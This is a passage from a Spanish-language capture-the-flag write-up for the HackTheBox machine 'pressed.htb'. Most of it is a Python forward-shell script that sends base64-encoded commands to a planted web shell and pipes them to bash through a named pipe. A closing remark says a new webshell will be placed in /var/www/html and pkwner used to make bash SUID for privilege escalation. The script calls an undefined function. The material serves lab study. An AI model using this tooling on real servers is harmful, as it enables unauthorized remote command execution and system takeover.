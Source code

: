 ```python

def def_handler(sign, frame):
	print("\n\nSaliendo.... \n")
	runCmd(erasestdin)
	runCmd(erasestdout)
	sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

def writeCmd(cmd):

    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()
    data = {
        'cmd':'echo %s | base64 -d > %s' % (cmd, stdin)
        }
    r=(requests.post(uri, data=data, timeout=5).text).strip()
    

def runCmd(cmd):
    
    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()
    data = {
        'cmd':'echo %s | base64 -d | bash' % cmd
    }
    
    r = (requests.post(uri, data=data, timeout=5).text).strip()
    return r

def readCmd():
    getOutput = "/bin/cat %s" % stdout
    output =  runCmd(getOutput)
    return output

def runFirst():
    cmd = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
    try:
        runCmd(cmd)
    except:
        None
    return None

uri = "http://pressed.htb/shell.php"
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % session
stdout = "/dev/shm/output.%s" % session
erasestdin = "rm %s" % stdin
erasestdout = "rm %s" % stdout


if __name__ == '__main__':
    runFirst()
    readAllOutput = AllTheReads()

    while True:
        cmd = input("> ")
        writeCmd(cmd + "\n")
        time.sleep(1.1)
```
Creamos una nueva webshell dentor de la ruta /var/www/html para que podamos manejar mejor nuestro script. Con esto podremos ejecutar el pkwner para hacer la bash suid y poder pwnear la máquina.
